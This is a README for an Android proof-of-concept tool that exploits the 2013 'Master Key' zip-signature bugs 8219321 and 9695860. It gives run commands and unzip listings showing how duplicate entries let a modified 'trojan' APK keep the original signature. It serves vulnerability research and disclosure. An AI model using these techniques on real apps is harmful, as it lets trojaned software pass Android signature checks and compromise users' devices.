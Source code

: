 Zip File Arbitrage
===================

This project includes a proof of concept for Android bug 8219321 as well as bug 9695860. 

## Android bug 9695860

Jay Saurik found a very nice way to utilize bug 9695860. He describes it far better than I could [here](http://www.saurik.com/id/18). I did not implement the advanced interleaving that he mentions here, but I did implement the ability to have more or less entries in the trojan app.  There are basically no limitations with this exploit.  In addition, this bug is patched on way less devices than AndroidMasterKeys.

The ```-b``` switch makes this tool use bug 9695860.

Run it as:
```
java -jar bin/AndroidMasterKeys.jar -b -a Orig.apk -z modifiedAPK.apk
```



## Android bug 8219321 aka Android Master Keys


This is a POC example for Android bug 8219321 (master keys):
  - [Well Written Explaination by Al Sutton](https://plus.google.com/113331808607528811927/posts/GxDA6111vYy)
  - [CyanogenMod Bug Report](https://jira.cyanogenmod.org/browse/CYAN-1602)
  - [CyanogenMod Patch](http://review.cyanogenmod.org/#/c/45251/)
  - [Blue Boxes' teaser of Blackhat talk](http://bluebox.com/corporate-blog/bluebox-uncovers-android-master-key/)
  - [POF's original POC](https://gist.github.com/poliva/36b0795ab79ad6f14fd8)
  - [Rekey.io - A Root framework patcher](http://www.rekey.io/)

Run it as:
```
java -jar bin/AndroidMasterKeys.jar -a Orig.apk -z modifiedAPK.apk
```

Please note that -most- ZIP libraries do not handle doing this properly.  UNIX zip's append will not allow file name collisions. It may be able to be done in Python, but it's default ZipFile append method only will add files in non-compressed.

The output from this [POC](https://gist.github.com/poliva/36b0795ab79ad6f14fd8) gives: 
```
➜  AndroidMasterKeys git:(master) unzip -vl pythonModdedApp.apk
Archive:  pythonModdedApp.apk
 Length   Method    Size  Ratio   Date   Time   CRC-32    Name
--------  ------  ------- -----   ----   ----   ------    ----
  506712  Defl:N   196197  61%  07-08-13 21:53  81ab41c8  classes.dex
    1664  Stored     1664   0%  07-08-13 21:51  db586380  AndroidManifest.xml
  506720  Stored   506720   0%  07-08-13 21:51  1fee85e8  classes.dex
     194  Stored      194   0%  07-08-13 21:51  463e5f86  library.properties
     776  Stored      776   0%  07-08-13 21:51  be507dd3  META-INF/CERT.RSA
     515  Stored      515   0%  07-08-13 21:51  1e40193c  META-INF/CERT.SF
     462  Stored      462   0%  07-08-13 21:51  de81958e  META-INF/MANIFEST.MF
     692  Stored      692   0%  07-08-13 21:51  d2d5c7bb  res/layout/main.xml
     856  Stored      856   0%  07-08-13 21:50  eac524bd  resources.arsc
    1761  Stored     1761   0%  07-08-13 21:51  e23c7570  rootdoc.txt
--------          -------  ---                            -------
 1020352           709837  30%                            10 files
 ```
 
 This tool takes proper care to not duplicate any files, while at the same time making sure that all 'appended' files are also compressed. 


 ```
unzip -vl AndroidMasterKeysModded.apk
Archive:  AndroidMasterKeysModded.apk
 Length   Method    Size  Ratio   Date   Time   CRC-32    Name
--------  ------  ------- -----   ----   ----   ------    ----
  506712  Defl:N   195600  61%  07-08-13 21:53  81ab41c8  classes.dex
     692  Defl:N      311  55%  07-08-13 21:51  d2d5c7bb  res/layout/main.xml
    1664  Defl:N      621  63%  07-08-13 21:51  db586380  AndroidManifest.xml
     856  Stored      856   0%  07-08-13 21:50  eac524bd  resources.arsc
  506720  Defl:N   190564  62%  07-08-13 21:51  1fee85e8  classes.dex
     194  Defl:N      144  26%  07-08-13 21:51  463e5f86  library.properties
    1761  Defl:N      741  58%  07-08-13 21:51  e23c7570  rootdoc.txt
     462  Defl:N      298  36%  07-08-13 21:51  de81958e  META-INF/MANIFEST.MF
     515  Defl:N      330  36%  07-08-13 21:51  1e40193c  META-INF/CERT.SF
     776  Defl:N      604  22%  07-08-13 21:51  be507dd3  META-INF/CERT.RSA
--------          -------  ---                            -------
 1020352           390069  62%                            10 files
 ```
 
To hack on the project download SBT run the following to build a jar:
```
sbt assembly
```
You can also add the gen-idea plugin and generate IntelliJ project files as well.
